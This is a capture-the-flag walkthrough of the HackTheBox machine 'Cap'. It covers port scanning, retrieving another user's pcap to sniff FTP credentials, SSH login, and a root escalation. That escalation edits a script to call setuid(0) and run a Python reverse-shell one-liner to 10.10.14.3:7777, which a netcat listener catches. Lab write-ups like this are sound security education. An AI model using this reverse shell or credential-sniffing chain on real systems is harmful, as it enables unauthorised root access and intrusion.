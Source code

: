 # HackTheBox - Cap

[Room link](https://app.hackthebox.com/machines/Cap)

---

<br>

## Enumeration

Simple nmap :

```bash
$ sudo nmap -sS -oN nmap.txt 10.10.10.245
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

<br>

Simple map with script execution and versions

```bash
$ sudo nmap -p21,22,80 -sC -sV -oN nmap-openports-1.txt 10.10.10.245
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 12 Jun 2022 16:04:38 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
```

<br>

Nmap every ports : there is no more open ports.

```bash
$ sudo nmap -sS -p- -oN nmap-full.txt 10.10.10.245
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

```

<br>

On the website, we are logged as Nathan. We can go to "home" page then we have a possibilty to get a "security snapshot". If we want to get a new security snapshot, there is no data in our new pcap file. But the url is : http://10.10.10.245/data/1. If we get this url http://10.10.10.245/data/0 we have more informations.
So download this file and open with Wireshark.

If we go on the stream TCP and Flux n°3, we can have the nathan's credentials through a ftp connection.

```bash
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS *************
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PORT 192,168,196,1,212,141
200 PORT command successful. Consider using PASV.
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.
```

---

<br>

## Exploitation

Let's connect to FTP

```bash
$ ftp 10.10.10.245       
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:*): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
[...]
ftp> ls -la                                                                            
200 PORT command successful. Consider using PASV.                                      
150 Here comes the directory listing.                                                  
drwxr-xr-x    3 1001     1001         4096 May 27  2021 .                              
drwxr-xr-x    3 0        0            4096 May 23  2021 ..                             
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null     
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout                   
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc                        
drwx------    2 1001     1001         4096 May 23  2021 .cache                         
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile                       
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null          
-r--------    1 1001     1001           33 Jun 12 16:01 user.txt
```

<br>

We can also connect us as nathan on the machine through ssh

```bash
$ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ECDSA key fingerprint is SHA256:8TaASv/TRhdOSeq3woLxOcKrIOtDhrZJVrrE0WbzjSc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ECDSA) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
```

---

<br>

## User flag

So, we have the user's flag. There is in user.txt on the nathan's home directory.

```bash
$ cat ~/user.txt
```

---

<br>

## Root flag

Move on the /var/www/html directory. There is a python script in here. Check it.

```bash
# permissions issues with gunicorn and threads. hacky solution for now.
        os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
        print(command)
        os.system(command)
        #os.setuid(1000)
[...]
if __name__ == "__main__":
        app.run("0.0.0.0", 88, debug=True)
```

Uncomment the os.setuid(0) and modify the "command" variable as above. The objectif is to set up a reverse shell. Finally, modify the port for application (on port 88 in this case).

Now, set up the netcat listenner on attack machine

```bash
$ nc -lnvp 7777
```

And then, start the python script modified.

```bash
$ python3 app.py
```

Now, go to the new website on port 88 and run "security snapshots". Reverse shell works. We can get the root flag.

```bash
$ nc -lnvp 7777                                                                 1 ⨯
listening on [any] 7777 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.245] 41786
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# cat /root/root.txt
*****************
```
